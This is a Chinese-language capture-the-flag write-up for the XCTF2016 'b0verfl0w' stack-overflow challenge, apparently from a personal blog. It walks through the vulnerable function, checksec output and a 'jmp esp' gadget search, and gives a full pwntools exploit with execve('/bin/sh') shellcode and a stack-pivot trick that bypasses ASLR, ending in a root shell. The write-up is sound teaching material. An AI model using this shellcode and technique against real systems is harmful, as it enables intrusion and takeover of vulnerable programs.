 ```yaml
---
layout: post
title: pwn XCTF2016 b0verfl0w
excerpt: "LCTF2016 pwn100 wirteup"
categories: [Writeup]
comments: true
---
```


这个题是开启aslr的,所以`echo 2 >/proc/sys/kernel/randomize_va_space`

ida打开发现栈溢出,offset为`0x20+4 = 36`
```c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);			//这里是一个明显的栈溢出
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```
checksec
```python
>>> from pwn import *
>>> print ELF('b0verfl0w').checksec()
[*] '/root/sploitfun/xctf2016/b0verfl0w'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
系统开启了ASLR，因此栈地址是随机的，我们无法预测。解决办法是利用相对地址即可

leave和ret含义如下
```x86asm
leave:mov esp,ebp;
  pop ebp;

ret :  pop eip
```
可知,当执行到ret的时候,esp刚好指向ret地址的下一个地址；而当我们找到如jmp esp的gadget并覆盖到return addr地址时，就可以跳到下一个地址去执行这个gadget地址后面的指令。

通过`ROPgadget --binary b0verfl0w | grep 'jmp esp'`找到jump esp (由于运行完shellcode之后不用再继续往下运行,所以带不带ret都行)
```x86asm
0x08048502 : and al, 0xc3 ; jmp esp
0x08048501 : in al, dx ; and al, 0xc3 ; jmp esp
0x080484ff : in eax, 0x83 ; in al, dx ; and al, 0xc3 ; jmp esp
0x08048504 : jmp esp

```
最终的exp
```python
from pwn import *

sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"  # 21byte

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')      #把esp指针减0x28,并跳转到esp中(运用相对的地址绕过了aslr)
jmp_esp = 0x08048504
payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp   #offset = 36
sh.sendline(payload)
sh.interactive()
```
运行结果
```
python exp.py 
[+] Starting local process './b0verfl0w': pid 28600
[*] Switching to interactive mode

======================

Welcome to X-CTF 2016!

======================
What's your name?
Hello 1慎酫h//shh/bin\x89惆
                           蛝bbbbbbbbbbbbbbb\x04\x85\x0\x83
.$                                                        id
uid=0(root) gid=0(root) groups=0(root)

```
